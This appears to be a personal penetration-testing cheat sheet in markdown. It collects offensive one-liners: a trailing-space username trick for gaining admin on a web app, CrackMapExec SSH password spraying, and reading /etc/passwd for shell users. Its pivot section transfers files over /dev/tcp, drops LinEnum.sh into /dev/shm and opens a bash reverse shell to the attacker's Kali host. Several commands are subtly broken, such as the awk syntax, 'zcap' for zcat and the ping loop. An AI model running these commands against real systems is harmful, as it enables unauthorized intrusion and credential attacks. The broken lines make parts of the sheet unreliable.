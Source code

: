 ## GREP
```bash
cat <file> | grep -v <somethin> # show everything except lines with <something>
```

> WITH LOGINS:

	we can try to register 'admin<space>' 
	sometimes the site register the same username of 'admin' and when we try to login
	we have admin privileges to the web server



```bash
cat /etc/passwd | grep sh$ | awk -F '{print 1$}' # print all the usernames that finish with sh


poetry run CrackMapExec ssh <url> -u <users file> -p <pwd file>
```

- zcap can read gzip files like a cat
```bash
zcap access.log.*.gz | grep -iv 'a\|b\|c'
```

## AUREPORT

Can do a report upon the logs files.
example:

```bash
aureport --tty # to show terminals access 
```

# Pivot

In kali:

create a directory: /www

```bash
python3 -m http.server
nc -lvnp 8000 < {file we want to send}
```

In target:
 
```bash
curl <ip>:<port>/<file>	
wget http://<ip>:<port>/file
cat < /dev/tcp/<kali ip>/<port> # to get the output of the file
bash -c "cat < /dev/tcp/<kali ip>/<port>" # if the shell isnt bash, try to execute as bash
bash -c "cat < /dev/tcp/<kali ip>/<port> > /dev/shm/LinEnum.sh" # try to send to a file
bash -c "bash -i >& /dev/tcp/<kali ip>/<port> 0>&1" # to get reverse shell
```

- It works like fping -a -g - but sometimes the target does not have this option
```bash
for ip in $(seq 1 5); do ping -c 1 < x.x.x.$ip > /dev/null && echo "Online: x.x.x.$ip"; done
```
